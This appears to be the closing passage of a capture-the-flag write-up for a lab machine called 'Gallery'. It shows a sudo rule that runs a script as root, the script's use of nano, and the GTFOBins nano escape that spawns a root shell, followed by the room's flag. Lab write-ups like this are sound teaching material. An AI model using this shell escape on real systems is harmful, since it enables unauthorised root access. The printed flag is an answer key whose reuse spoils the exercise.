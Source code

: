 **Question**
#### What's the root flag?

Let's check what we can do with Mike
```
mike@gallery:~$ sudo -l
sudo -l
Matching Defaults entries for mike on gallery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh
```
Let's explore this **rootkit.sh**
```
cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```
**nano** is used. Move to [GTFOBINS](https://gtfobins.github.io/gtfobins/nano/)
The first [option](https://gtfobins.github.io/gtfobins/nano/#shell) looks like good
```
nano
^R^X
reset; sh 1>&0 2>&0
```
After that, you are root and you can find the flag ^^

**Answer** 
#### THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
